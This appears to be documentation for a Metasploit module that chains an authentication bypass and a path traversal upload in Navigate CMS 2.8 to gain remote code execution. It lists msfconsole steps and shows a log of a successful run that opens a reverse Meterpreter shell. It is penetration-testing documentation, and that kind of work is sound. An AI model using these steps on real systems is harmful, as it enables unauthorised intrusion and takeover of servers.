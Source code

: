 ## Description

This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8 and prior, to bypass authentication.
It then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations.
Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely.
This module was tested against Navigate CMS 2.8.

## Vulnerable Application 

[Navigate CMS 2.8](https://master.dl.sourceforge.net/project/navigatecms/releases/navigate-2.8r1302.zip)

## Verification Steps

1. Install Navigate CMS
2. Start `msfconsole`
3. `use exploit/multi/http/navigate_cms_rce`
4. `set RHOST <rhost>`
5. `check`
6. You should see `The target appears to be vulnerable.`
7. `exploit`
8. You should get a meterpreter session

## Scenarios

### Navigate CMS on Ubuntu 18.04

```
msf5 > use exploit/multi/http/navigate_cms_rce
msf5 exploit(multi/http/navigate_cms_rce) > set RHOST 192.168.178.45
RHOST => 192.168.178.45
msf5 exploit(multi/http/navigate_cms_rce) > check
[*] 192.168.178.45:80 The target appears to be vulnerable.
msf5 exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 192.168.178.35:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (37775 bytes) to 192.168.178.45
[*] Meterpreter session 1 opened (192.168.178.35:4444 -> 192.168.178.45:52720) at 2018-09-26 22:24:59 +0200

meterpreter > 
```
